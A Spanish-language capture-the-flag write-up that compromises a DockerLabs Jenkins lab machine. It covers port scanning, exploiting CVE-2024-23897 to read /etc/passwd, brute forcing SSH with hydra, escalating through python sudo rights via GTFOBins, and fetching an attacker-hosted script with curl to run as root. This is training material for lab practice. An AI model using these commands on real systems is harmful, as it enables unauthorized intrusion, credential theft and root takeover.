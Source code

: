 # [SecretHacking](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh secretjenkins.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **8080** y el **22**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a1c0f66b-e114-4d9c-8b06-44d197ff9d93)
<br>
<br>
## Página Web (Puerto 8080)

Al ver que está abierto el puerto 8080 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:8080` ya que es el puerto 8080 el que aloja este servidor Web. Podemos ver un panel de login para Jenkins: 

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedfd01c-7a4d-45a9-a0b0-dd8b66cf42ac)

<br>

Si probamos ha hacer un fuzzing web ya sea con gobuster o wfuzz. De la siguiente forma `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2:8080/ -x txt,sql,py,js,php,html`, observamos que nos detecta muchos de subdirecctorios.  <br>
`-w` ⮞ ruta al diccionario para usar en el descubrimiento de subdirecctorios <br>
`u` ⮞ dirección donde se aloja el servidor web <br>
`x` ⮞ extensiones de archivos para descubrir en el fuzzins <br>
<br>

Si probamos con el primero de ellos `index` podemos ver que abajo a la derecha la versión del Jenkins usada: 
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f7eda42-68f8-44bf-ab5e-eb70c4115cb2)
<br>
<br>

## Jenkins 2.441
Ahora que conocemos la versión de Jenkins podemos buscar en Internet en búsquedad de exploits para esta versión en especifico de la siguiente forma: `jenkins 2.44.1 github exploit`. Y nos encontramos con el siguiente repositorio de 
[github](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability). En el encontramos un poco de información sobre la vulnerabilidad a explotar, la cual consiste en leer archivos 
del sistema (LFI)<br>

Nos descargamos el exploit en python con wget de la siguiente forma
`wget https://raw.githubusercontent.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability/main/CVE-2024-23897.py` <br>, le asignamos permisos de ejecución con `chmod +x CVE-2024-23897.py`. Su uso es muy sencillo solo hay que poner la url de la página web con Jenkins y el archivo que queremos leer por lo tanto sería tal que así `python3 CVE-2024-23897.py -u http://172.17.0.2:8080/ -f /etc/passwd`. Y observamos el arhcivo de `/etc/passwd` donde podemos leer algunos usuarios como `bobby y pinguinito`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/081ea4f9-5afc-45e5-9375-a911c288fb91)
<br>
<br>

## Hydra / Medusa
Una vez conocemos los posibles usuarios los metemos un archivo llamdo `users` aplicamos un ataque de fuerza fruta con hydra con el siguiente comando: `hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (bobby,pinguinito) <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
<br>
Nos reporta lo siguente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/13bb5fb7-d465-4fbe-8bde-1d49fe9f9bea)
<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probramos a entrar a la máquina Vacaciones con `ssh bobby@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)
<br>
<br>

## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **bobby** <br>
Si ejecutamos `sudo -l` podemos ver que podemos ejecutar sin proporcionar contraseña con el usuario **pinguinito**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/784a5bb5-c6e0-4895-8a7e-abd7d12b0c20)
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando `sudo python -c 'import os; os.system("/bin/sh")'`. Y lo ejecutaríamos de la siguiente forma `sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`. <br>
<br>

Y ya seríamos el usuario **pinguinito**, ejecutamos otras vez el `sudo -l` y nos encontramos con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedce804-521c-4d03-b0e4-76d927b1c1fc)
<br>

Por lo que nos dirigimos a la ubicación del archivo e intentamos modificarlo para ejecutar una shell con python, nos damos cuenta que no contamos con ningún editor de texto, pero si tenemos curl por lo que desde nuestra máquina de atacante nos creamos un archivo llamado `script.py` que contendría lo siguiente: <br>
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5b7b63aa-43b6-49b4-ac98-acbc1d40dc20)
<br>

Nos montamos un servidor HTTP en python en la ubicación de nuestro archivo `script.py` de la siguiente forma `python3 -m http.server 80` para poder compartir dicho archivo con la máquina de **SecretJenkins**. <br>

Ahora en la máquina **SecretJenkins** accedemos al archivo de la siguiente forma `curl http://172.17.0.1/script.py -O script.py`, antes deberíamos haber puesto permiso de escritura en el archivo `scirpt.py` con `chmod +w script.py`. Una vez tenemos dicho archivo hacemos `sudo -u root /usr/bin/python3 /opt/script.py` para ejecutar dicho archivo como root y listo ya somos root:  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d9f1e7ce-a131-4683-9fdb-fe976dcad531)
